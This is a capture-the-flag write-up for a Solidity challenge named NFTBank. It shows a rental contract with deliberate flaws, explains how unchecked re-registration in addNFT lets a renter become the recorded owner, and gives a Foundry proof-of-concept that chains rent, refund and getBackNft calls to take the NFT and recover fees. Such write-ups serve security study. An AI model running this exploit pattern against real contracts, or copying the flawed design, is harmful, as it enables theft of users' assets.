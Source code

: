 # NFTBank

## Challenge

Description:
Users can rent NFTs from the NFTBank. They have to pay a fixed commission when they want to get rent, and when they want to return NFT,
the contract will take a second fee, depending on how many days you have NFT from.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8;

import {IERC721} from "openzeppelin-contracts/contracts/token/ERC721/IERC721.sol";
import {ERC721Holder} from "openzeppelin-contracts/contracts/token/ERC721/utils/ERC721Holder.sol";
import {ReentrancyGuard} from "openzeppelin-contracts/contracts/security/ReentrancyGuard.sol";

contract NFTBank is ReentrancyGuard, ERC721Holder {
    struct rentData {
        address collection;
        uint id;
        uint startDate;
    }

    struct nftData {
        address owner;
        uint rentFeePerDay;
        uint startRentFee;
    }
    mapping(address => mapping(uint => nftData)) public nfts;
    mapping(address => mapping(uint => uint)) public collectedFee;
    rentData[] public rentNFTs;

    error WrongETHValue();
    error YouAreNotOwner();

    function addNFT(
        address collection,
        uint id,
        uint rentFeePerDay,
        uint startRentFee
    ) external {
        nfts[collection][id] = nftData({
            owner: msg.sender,
            rentFeePerDay: rentFeePerDay,
            startRentFee: startRentFee
        });
        IERC721(collection).safeTransferFrom(msg.sender, address(this), id);
    }

    function getBackNft(
        address collection,
        uint id,
        address payable transferFeeTo
    ) external {
        if (msg.sender != nfts[collection][id].owner) revert YouAreNotOwner();
        IERC721(collection).safeTransferFrom(address(this), msg.sender, id);
        transferFeeTo.transfer(collectedFee[collection][id]);
    }

    function rent(address collection, uint id) external payable {
        IERC721(collection).safeTransferFrom(address(this), msg.sender, id);
        if (msg.value != nfts[collection][id].startRentFee)
            revert WrongETHValue();
        rentNFTs.push(
            rentData({
                collection: collection,
                id: id,
                startDate: block.timestamp
            })
        );
    }

    function refund(address collection, uint id) external payable nonReentrant {
        IERC721(collection).safeTransferFrom(msg.sender, address(this), id);
        rentData memory rentedNft = rentData({
            collection: address(0),
            id: 0,
            startDate: 0
        });
        for (uint i; i < rentNFTs.length; i++) {
            if (rentNFTs[i].collection == collection && rentNFTs[i].id == id) {
                rentedNft = rentNFTs[i];
            }
        }
        uint daysInRent = (block.timestamp - rentedNft.startDate) / 86400 > 1
            ? (block.timestamp - rentedNft.startDate) / 86400
            : 1;

        uint amount = daysInRent * nfts[collection][id].rentFeePerDay;
        if (msg.value != amount) revert WrongETHValue();
        uint index;
        for (uint i; i < rentNFTs.length; i++) {
            if (rentNFTs[i].collection == collection && rentNFTs[i].id == id) {
                index = i;
            }
        }
        collectedFee[collection][id] += amount;
        payable(msg.sender).transfer(
            nfts[rentNFTs[index].collection][rentNFTs[index].id].startRentFee
        );
        rentNFTs[index] = rentNFTs[rentNFTs.length - 1];
        rentNFTs.pop();
    }
}
```

## Solution

The NFTContract looked kind of confusing to me in the beginning, but was not that complicated after looking at it in detail.

The vulnerability consists of 2 issues.

### No check for rented NFTs during addNFT() 
When adding a NFT using addNFT() there are no checks if the NFT is already rent out. So we can just rent out an NFT and then return it to the contract using addNFT() becoming the new owner, as the struct that includes the owner is jsut overwritten.

### No check for multiple consecutive refunds

When we are the owner we can refund ourselfes and then call getBackNft() multiple times. 


### Exploit 

We can use both of those vulnerabilities by making ourself the owner of the NFT using addNFT() and getting the NFT back that way after the reutn, and using the multiple refunds to get back all our money. I implemented this in the POC like this:

```solidity
vm.startPrank(attacker);
bank.rent{value: 500 gwei}(address(meow), 1);
vm.warp(block.timestamp + 86400 * 10);
//solution start

//we add the NFT to the bank
meow.approve(address(bank), 1);
bank.addNFT(address(meow), 1, 0 gwei, 500 gwei);

//now we rent it out again
bank.rent{value: 500 gwei}(address(meow), 1);

//we refund the NFT to get back the first 500 gwei
meow.approve(address(bank), 1);
bank.refund(address(meow), 1);

//then we get it back as we are now marked as the owner
bank.getBackNft(address(meow), 1, payable(address(attacker)));

//then we refund it again to get the second 500 gwei
meow.approve(address(bank), 1);
bank.refund(address(meow), 1);

//then we get it back again
bank.getBackNft(address(meow), 1, payable(address(attacker)));

//solution end  
vm.stopPrank();
```

